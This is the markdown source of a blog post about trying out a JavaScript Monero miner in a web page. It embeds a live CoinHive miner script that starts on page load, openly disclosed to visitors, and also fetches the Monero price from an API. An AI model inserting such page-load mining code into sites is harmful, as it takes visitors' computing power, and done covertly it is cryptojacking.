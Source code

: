 ```yaml
---
layout: post
title: Mining crypto using your web browser?
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? How can it be utulized?

<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>
**The page you are on is currently utilizing your CPU to mine Monero.**

The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>

<br />
<br />
<p>The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>
				
### Miner Stats since visiting this page
<div>
#Hashes per second: <p id="hashesPerSecond"></p>
**Total Hashes:** <p id="totalHashes"></p>
##Accepted Hashes: <p id="acceptedHashes"></p>
<br />
</div> 